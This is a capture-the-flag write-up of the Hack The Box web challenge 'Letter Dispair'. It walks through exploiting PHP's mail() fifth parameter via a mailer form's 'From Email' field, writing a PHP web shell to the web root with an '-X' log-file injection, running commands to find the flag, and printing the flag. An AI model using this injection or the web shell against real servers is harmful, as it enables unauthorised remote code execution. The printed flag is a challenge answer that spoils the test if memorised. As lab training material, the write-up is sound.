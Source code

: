 # Writeup "Letter Dispair"

## Quick Info

<table>
	<tr><td><b>site</b></td><td>Hack the box</td></tr>
	<tr><td><b>url</b></td><td>https://app.hackthebox.com/challenges/letter-dispair</td></tr>
	<tr><td><b>discussion</b></td><td>https://forum.hackthebox.com/t/official-letter-dispair-discussion</td></tr>
	<tr><td><b>type</b></td><td>challenge/web</td></tr>
	<tr><td><b>difficulty&nbsp;&nbsp;&nbsp;</b></td><td>easy</td></tr>
	<tr><td><b>startdate</b></td><td>2022-07-31</td></tr>
	<tr><td><b>enddate</b></td><td>2022-08-03</td></tr>
</table>

## Description

> A high-profile political individual was a victim of a spear-phishing attack. The email came from a legitimate government entity in a nation we don't have jurisdiction. However, we have traced the originating mail to a government webserver. Further enumeration revealed an open directory index containing a PHP mailer script we think was used to send the email. We need access to the server to read the logs and find out the actual perpetrator. Can you help?

## Description

We receive an IP and port to a server. When we access the server using a web browser, we see a directory listing with three files:

<p align="center">
   <img src="includes/letter-dispair-01.png" />
</p>

`mailer.php` displays a form for sending e-mails:

<p align="center">
   <img src="includes/letter-dispair-02.png" />
</p>

`mailer.zip` contains `mailer.php` which allows us to analyse the source code.

A quick Google search tells us that PHP's mail() function allows remote code execution if the fifth parameter can be influenced by the user. Checking the source code reveals that the code is vulnerable. Whatever we put in the "From Email" field will be used as a parameter.

Following the article at [1], we enter the following string in the "From Email" field to create a publicly-accessible PHP file whose contents we can manipulate:

```
relations@moi.gov.htb -X/var/www/html/rce.php
```

Our payload will be a makeshift PHP shell, which we enter into the "Subject" field. The following line would be sufficient:

```
&lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;
```

However, this is not very comfortable. We therefore improve the code to include a text field for entering commands and which formats the output:

```
&lt;hr /&gt;
&lt;form action=&quot;rce.php&quot; method=&quot;get&quot;&gt;
  &lt;input type=&quot;text&quot; 
    id=&quot;cmd&quot; 
    name=&quot;cmd&quot; 
    value=&#039;&lt;?php print($_GET[&quot;cmd&quot;]); ?&gt;&#039; 
    autofocus 
    onfocus=&quot;var temp_value=this.value; 
      this.value=&#039;&#039;; 
      this.value=temp_value&quot; /&gt;
&lt;/form&gt;
&lt;hr /&gt;
&lt;pre&gt;
  &lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;
&lt;/pre&gt;
&lt;hr /&gt;
```

After hitting the "Start Delivery" button, we reload the directory listing in order to verify that the file was created correctly. If no file is visible, we have to try different paths. In this case we are lucky on the first try:

<p align="center">
   <img src="includes/letter-dispair-03.png" />
</p>

We can now open our PHP shell and start looking for the flag. Using the following commands, we are successful:

```
ls -la
whoami
find / -name *flag*
cat /flag.txt
```

<p align="center">
   <img src="includes/letter-dispair-04.png" />
</p>

```
HTB{4_l3tt3r_0f_h0p3_c0nqu3r1ng_d1sp4ir!}
```

## Sources

1. https://www.saotn.org/exploit-phps-mail-get-remote-code-execution
2. https://www.php.net/manual/de/function.mail.php
3. https://blog.sonarsource.com/why-mail-is-dangerous-in-php/
